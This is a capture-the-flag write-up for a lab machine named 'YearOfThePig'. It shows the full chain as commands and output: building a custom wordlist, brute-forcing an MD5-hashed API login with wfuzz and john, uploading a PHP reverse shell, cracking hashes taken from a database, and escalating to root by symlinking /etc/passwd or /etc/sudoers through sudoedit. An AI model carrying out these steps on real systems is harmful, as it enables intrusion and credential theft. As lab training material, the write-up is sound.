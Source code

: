 ### YearOfThePig


# portscan
```
22
80
```

name: marco, taylor

```admin login hint

Remember that passwords should be a memorable word, followed by two numbers and a special character

```

# Create custom list

Create list with words "words.txt"
create list with caracteres special

>for i in {10..99};do while read line;do echo $line$i;done < words.txt;done > words_num.txt

> while read line;do while read char;do echo $line$char;done < carac; done < words_num.txt > Final_wordlist.txt


with burp capture request

{"username":"marco","password":"1a1dc91c907325c69271ddf0c944bc72"}

password md5 encoded

>python3 md5hash.py Final_wordlist.txt final_hash.txt

>wfuzz -w final_hash.txt -H "User-Agent: Bypass" -X POST -d '{"username":"marco","password":"FUZZ"}' -u http://10.10.200.52/api/login --hw 4

> john hash --wordlist=Final_wordlist.txt --format=Raw-md5

savoia21!        (?)


## {marco:savoia21!}

#### connect SSH

> ssh marco@{ip}

##### Privilege escalation
```
-rw-------  1 www-data www-data       24576 Dec  8 07:12 admin.db

/etc/group
web-developers:x:1002:www-data,marco

Marco can add files in /var/www/html/ lets upload php_reverse_shell

gain www-data shell 

access sqlite3 admin.db - found 

select * from users;
58a2f366b1fd51e127a47da03afc9995|marco|ea22b622ba9b3c41b22785dcb40211ac
f64ccfff6f64d57b121a85f9385cf256|curtis|a80bfe309ecaafcea1ea6cb3677971f2

use john to crack hash

{curtis:Donald1983$}

sudo -l
Matching Defaults entries for curtis on year-of-the-pig:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH"

User curtis may run the following commands on year-of-the-pig:
    (ALL : ALL) sudoedit /var/www/html/*/*/config.php


we can create file 'config.php' with marco credential (web-developer)

use ln for link /etc/passwd

>ln -s /etc/passwd /var/www/html/*/*/config.php
> sudoedit /var/www/html/*/*/config.php

kali@machine> # openssl passwd -6 -salt nothing password

> sudoedit /var/www/html/*/*/config.php
hacker:$6$nothing$creXYt9aVGarMfNqn4XmctIp9BAzDfbCj9CUFelbTb0WiugUlxgVFBmzWzqpYjdVd7duTrAf5RsQhQe1kqo4H0:0:0::root:/bin/bash

> su hacker

root@year-of-the-pig:/#

====================================================================================================
```
## Another metod priv escalation
```
> ln -s /etc/sudoers /var/www/html/*/*/config.php
>sudoedit /var/www/html/*/*/config.php

Edit user privilege

curtis ALL=(ALL) ALL

>sudo su

root@year-of-the-pig:/# 
```



====================================================================================================
#### Another metod to create list 

>cewl http://10.10.197.153/ > cewl_list

>john -w=cewl_list --rules --stdout > cwel_uplist.txt

with hint.. add rule john
:$[0-9]$[0-9]$[!@#$%?.,&]

>john -w=cwel_uplist.txt --rules --stdout > cewl_listnum.txt
